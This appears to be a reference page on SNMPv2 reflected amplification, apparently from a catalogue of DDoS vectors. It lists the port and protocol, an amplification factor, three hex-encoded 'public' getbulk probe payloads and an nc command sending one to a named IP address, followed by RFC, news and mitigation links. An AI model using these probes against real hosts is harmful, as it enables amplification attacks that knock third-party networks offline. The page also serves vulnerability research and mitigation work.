 # SNMPv2

## Port: 161

## Proto: UDP

## Amplification factor: 40x

## Reflector count: ~295,000 with over 2,000 bytes.

---

### Refined "public" getbulk query

- **34 byte request responding with an average of 2300 bytes**, leading to an amplification factor of ~40x.
- Example minimalist probes:
  - 302402010104067075626c6963a517020465c941f002010002010a3009300706032b06010500
  - 302402010104067075626c6963a517020474cb377402010002010a3009300706032b06010500
  - 302402010104067075626c6963a51702047b73cc130201000201643009300706032b06010500

### Example request/response

- > ~# echo -ne '\x30\x24\x02\x01\x01\x04\x06\x70\x75\x62\x6c\x69\x63\xa5\x17\x02\x04\x7b\x73\xcc\x13\x02\x01\x00\x02\x01\x64\x30\x09\x30\x07\x06\x03\x2b\x06\x01\x05\x00' |nc -u 31.133.49.250 161
      <pre>2561 bytes</pre>

### Documentation

- https://tools.ietf.org/html/rfc3412
- https://kb.iweb.com/hc/en-us/articles/230268048-Guide-to-Public-SNMP-Amplification-Issues
- https://www.darkreading.com/attacks-breaches/snmp-ddos-attacks-spike/d/d-id/1269149

### Mitigations

- https://www.bitag.org/documents/SNMP-Reflected-Amplification-DDoS-Attack-Mitigation.pdf
